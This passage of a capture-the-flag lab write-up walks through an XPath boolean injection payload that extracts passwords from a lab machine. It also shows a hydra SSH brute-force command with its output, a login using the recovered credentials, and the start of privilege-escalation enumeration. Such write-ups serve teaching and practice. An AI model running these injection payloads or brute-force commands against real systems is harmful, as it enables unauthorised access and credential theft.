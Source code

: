 * after some time on brupSuite testing XPath injection i found a way to extract password strings using xpath injection like sqli.

  __Payload :__ `' or Username='bryan'and substring(Password,$i,1)='$c`

* i create a bruteforce [script](exploit-scr/xpath_bf.py) that extract password from database using XPath vulnerability. __payload is worked like a sql boolean based injection.__ when `$i=$c` then page return `Username` contact details, and if `$i!=$c` then page return `Invalid credentials.`*where __i__ is a int and __c__ is a char*

  * it takes some time to extract all password form the database

__creds__
```
rita:password01!
jim:stairwaytoheaven
bryan:ireallyl0vebubblegum!!!
sarah:sarah4evah
```

## ssh bruteforce

`hydra -L usernames -P password 10.10.10.200 -t 4 ssh`
```diff
 [DATA] attacking ssh://10.10.10.200:22/
+[22][ssh] host: 10.10.10.200   login: bryan   password: ireallyl0vebubblegum!!!
 1 of 1 target successfully completed, 1 valid password found
```

__ssh-creds :__ `bryan:ireallyl0vebubblegum!!!`


## USER:bryan shell

`ssh bryan@10.10.10.200`
```diff
+bryan@10.10.10.200's password: ireallyl0vebubblegum!!!

Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

bryan@unbalanced:~$ cat user.txt
f91a0994************************
```

# Privesc enumeration

* in the bryan home folder there is a `TODO` file and inside the file there is a service specified that is running on localhost -

	  ###########
	  # Pi-hole #
	  ###########
	  * Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
	  * Set temporary admin password [DONE]
	  * Create Pi-hole configuration script [IN PROGRESS]
	  - Run Pi-hole configuration script [TODO]
	  - Expose Pi-hole ports to the network [TODO]
